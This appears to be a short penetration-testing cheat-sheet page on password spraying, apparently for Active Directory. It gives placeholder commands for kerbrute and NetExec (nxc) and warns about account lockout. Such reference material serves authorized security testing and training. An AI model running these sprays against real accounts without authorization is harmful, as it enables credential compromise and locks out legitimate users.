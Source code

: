 # Password Spray

{% hint style="warning" %}
Accounts can be locked during the process.
{% endhint %}

## Kerbrute

If valid usernames are known, perform a password spray to find weak passwords:

```bash
kerbrute passwordspray <username_list> <password> -d <domain_name> --dc <dc_ip>
```

<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption><p>Password spray using <code>kerbrute</code></p></figcaption></figure>

## NXC

Another method to spray passwords, particularly targeting various services:

```
nxc <service> <target> -u <username_list> -p <password> --continue-on-success
```

<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption><p>Password spray using <code>nxc</code></p></figcaption></figure>

